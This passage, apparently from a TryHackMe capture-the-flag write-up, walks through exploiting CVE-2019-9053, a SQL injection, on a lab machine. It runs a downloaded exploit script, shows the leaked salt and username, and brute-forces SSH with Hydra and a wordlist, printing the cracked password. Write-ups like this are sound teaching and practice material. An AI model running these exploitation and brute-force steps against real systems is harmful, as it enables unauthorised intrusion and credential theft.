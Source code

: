 So the answer is:

```
CVE-2019-9053 
```

### To what kind of vulnerability is the application vulnerable?

The vulnerability described in CVE-2019-9053 is a "SQL Injection", the answer is shorthand for that which is:
```
sqli
```

### What's the password?
Since TryHackMe references CVE-2019-9053, I'm going to assume that we can use this vulnerability to retrieve the password...

"SQL Injection" should always make a pen-tester's ears perk up! You can see that SearchSploit references a python file: "46635.py". That number refers to the "EDB-ID" of this particular exploit. We can have SearchSploit copy this python file to our current working directory with the following command:
```shell
searchsploit -m 46635
```
Let's try out this python script! **NOTE:** This script was not made for python3, I made some modifications to the script to allow it to work for python3.

```shell
python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c
```

This script was not very stable. I had to run it a few times, and I was never able to get it to crack the password as advertised. But I did successfully get the following info:

```	
salt = 1dac0d92e9fa6bb2
username = mitch
email = admin@admin.com
```

Since I do have the username, I used Hydra to crack the SSH password:

**NOTE:** Don't forget that SSH is running on port **2222**, not the usual port **22**.
	
```shell
hydra -l mitch -P rockyou.txt ssh://{MACHINE_IP}:2222
```

Got the password in less than a minute!

```
[2222][ssh] host: {MACHINE_IP}   login: mitch   password: secret
```

So the password is:

```secret
```
